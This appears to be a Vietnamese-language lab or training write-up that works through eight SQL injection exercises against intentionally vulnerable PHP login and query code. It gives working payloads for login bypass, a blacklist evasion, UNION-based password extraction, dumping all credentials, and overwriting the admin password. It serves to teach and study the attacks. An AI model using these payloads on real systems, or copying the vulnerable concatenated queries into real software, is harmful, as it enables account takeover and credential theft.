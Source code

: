 ## Example

### Example 1

```
$sql = "SELECT username FROM users WHERE username='$username' AND password='$password'";
$query = $database->query($sql);
```

C1: Truyền dữ liệu `admin' -- ` vào biến username.

C2: Truyền dữ liệu `admin' or 1 = '2`.

Giải thích: toán tử AND sẽ được ưu tiên thực hiện trước toán tử OR. Nên ta có logic của câu truy vấn như sau: TRUE OR (FALSE AND FALSE) --> TRUE OR FALSE = TRUE --> login thành công.

 ### Example 2

 ```
$sql = "SELECT username FROM users WHERE username=\"$username\" AND password=\"$password\"";
$query = $database->query($sql);
```

Tương tự ex 1 nhưng lần này biến $username và $password được bọc trong dấu nháy kép. 

C1: Truyền dữ liệu `admin" -- ` vào biến username.

C2: Truyền dữ liệu `admin" or 1 = "2`.

### Example 3

```
$sql = "SELECT username FROM users WHERE username=LOWER(\"$username\") AND password=MD5(\"$password\")";
$query = $database->query($sql);
```

Có sự xuất hiện của hàm LOWER(). Cách khai thác:

Cách khai thác: `admin" ) -- `.

### Example 4

```
function checkValid($data)
{
    if (strpos($data, '"') !== false)
        return false;
    return true;
}

function loginHandler($username, $password)
{
    if (!checkValid($username) || !checkValid($password))
        return "detected";
....

    $sql = "SELECT username FROM users WHERE username=LOWER(\"$username\") AND password=MD5(\"$password\")";
    $query = $database->query($sql);
```

Ở ví dụ này chương trình đưa dấu nháy kép " vào blacklist. Vì vậy hãy sử dụng dấu backslash `\` để loại bỏ dấu " trong câu truy vấn. Cách khai thác:

Ở trường username nhập: `\`. Như vậy username sẽ nhận giá trị `) AND password=MD5(`.

Ở trường password thực hiện nối dài câu truy vấn để khai thác sqli: `) union select 'admin' -- `.

Lúc này câu truy vấn sẽ trở thành: `SELECT username FROM users WHERE username=LOWER() AND password=MD5() UNION SELECT 'admin' -- `

### Example 5

```
$sql = "SELECT username, password FROM users WHERE username='$username'";
```

Truy vấn giá trị username và password từ database nơi mà usernmae bằng giá trị biến $username nhập vào. password nhập vào sẽ được hash md5 trước khi so sánh với password truy vấn trước đó.

Cách khai thác: nối dài câu truy vấn với `union`.

C1: Truyền dữ liệu vào biến username: `' UNION SELECT password, md5('1') from users where username = 'admin' -- `. Password: `1`. Bằng cách này sẽ lấy được được password của admin từ database.

C2: Cách này sẽ thao túng luôn password và đăng nhập với tư cách admin với bất kì password nào. `' UNION SELECT 'admin', md5('1') -- `.

### Example 6

```
$sql = "SELECT content FROM posts WHERE id=$id";
```

Khai thác truy vấn database version: `0 UNION SELECT @@version –- `.

### Example 7

```
$sql = "SELECT username FROM users WHERE username=? and password=?";
$statement = $database->prepare($sql);
$statement->bind_param('ss', $_POST['username'], md5($_POST['password']));
$statement->execute();
$statement->store_result();
$statement->bind_result($result);

if ($statement->num_rows > 0) {
    $statement->fetch();
    $_SESSION["username"] = $result;
    die(header("Location: profile.php"));

...
```
Ở ex này câu truy vấn sử dụng "prepared statements" giúp chống lại các cuộc tấn công SQL injection. Nhưng tại file profile.php lại sử dụng câu truy vấn nối chuỗi `$sql = "SELECT email FROM users WHERE username='$username'";` dẫn đến bị khai thác:

Tạo tài khoản với username: `' UNION SELECT GROUP_CONCAT(username, password) FROM users -- `.

### Level 8
```
$sql = "UPDATE users SET email='$email' WHERE username='$username'";
```
Cách khai thác: lợi dụng câu truy vấn UPDATE thay đổi password của `admin` theo ý muốn `', password = md5('1') where username='admin' --  `.




 


